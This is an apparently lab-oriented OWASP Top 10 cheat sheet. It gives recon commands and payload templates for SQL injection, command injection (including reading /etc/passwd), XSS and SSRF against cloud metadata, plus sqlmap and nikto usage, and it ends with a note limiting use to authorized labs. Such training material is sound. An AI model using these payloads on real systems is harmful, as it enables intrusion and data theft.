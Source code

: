 # CHEATSHEET — OWASP Top 10 (2021)

## Quick Recon
- Ping: `ping -c 3 <IP>`
- Nmap common scan: `nmap -sC -sV -oN nmap_initial.txt <IP>`
- Enumerate web directories: `ffuf -u http://<IP>/FUZZ -w /path/wordlist.txt -mc 200,301,302`
- Gobuster: `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

---

## HTTP Interactions
- Curl basic: `curl -i http://<IP>/path`
- Follow redirects & show headers: `curl -v -L http://<IP>/`

---

## Common payload templates

### IDOR / Broken Access Control
- Try sequential IDs: `GET /user/1`, `/user/2` ...
- Tamper object id in request body or URL via Burp.

### SQL Injection (basic)
- Test: `' OR '1'='1` or `admin' -- `
- Extract: `UNION SELECT NULL, version(), database(), user()`

### Command Injection
- Test: `; ls -la` or `&& whoami` or `| cat /etc/passwd`
- Use URL encoding if needed.

### XSS (simple)
- Reflected test: `<script>alert('XSS')</script>`
- HTML context variants: `"><svg/onload=alert(1)>`

### SSRF
- Test: `http://127.0.0.1:80/` or `http://169.254.169.254/latest/meta-data/` (in cloud labs only where safe/authorized)
- Redirect discovery: use `burp` to tamper URLs.

---

## Tools quick commands
- Burp: intercept and modify requests.
- sqlmap quick: `sqlmap -u "http://<IP>/vuln.php?id=1" --batch --dbs`
- nikto: `nikto -h http://<IP>/`
- searchsploit: `searchsploit <service> <version>`

---

## Hashes & Crypto
- Check hashes: `hashid file` or `hash-identifier`
- openssl decrypt example: `openssl enc -d -aes-256-cbc -in secret.enc -out secret.txt -pass pass:password`

---

## Notes on responsible use
- Use above tools **only** on authorized lab machines (like TryHackMe VMs).
- When running automated tools, keep them targeted and avoid collateral scanning.

